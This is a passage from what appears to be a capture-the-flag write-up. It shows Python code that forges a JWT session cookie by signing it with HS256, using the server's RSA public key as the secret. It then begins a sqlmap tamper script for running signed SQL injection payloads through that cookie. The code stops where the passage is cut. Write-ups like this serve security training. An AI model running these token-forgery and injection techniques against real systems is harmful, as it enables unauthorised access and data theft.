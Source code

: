 ```python
PUB_KEY = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
USER = 'admin' # NOTE: this user exists, we just created.
encoded = jwt.encode({ "username": USER, "pk": PUB_KEY, "iat": datetime.datetime.utcnow() },
                     PUB_KEY, algorithm="HS256")
print(encoded)
s = requests.Session()
c = requests.cookies.create_cookie(name='session', value=encoded.decode('UTF-8'))
s.cookies.set_cookie(c)
r = s.get(URL)
assert "doesn't exist in our database." not in r.text, "error"
print(r.text)
```

Yes, the request succeeds as I could see the same message as before. So we can sign a jwt token, cool.
```bash
...
                    Message from developers
                </div>
                <div class="card-body">
                    Welcome test<br>
                    This site is under development. <br>
                    Please come back later.
                </div>
            </div>
        </div>    
    </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

We do not know what kind of SQL injection payload that we need to use. To find automatically the payload, I used `sqlmap`. Each payload in session cookie must be signed. We can use `--tamper` argument of `sqlmap` and a custom script as a value to achieve this. Here is the tamper script I implemented:

```python
#!/usr/bin/env python3

import os
import datetime

try:
    import jwt
except ImportError:
    os.system("python -m pip install pyjwt==0.4.3 --no-cache-dir")
    import jwt

##
# NOTE: sqlmap custom tamper script related
from lib.core.data import kb
from lib.core.enums import PRIORITY
import logging
```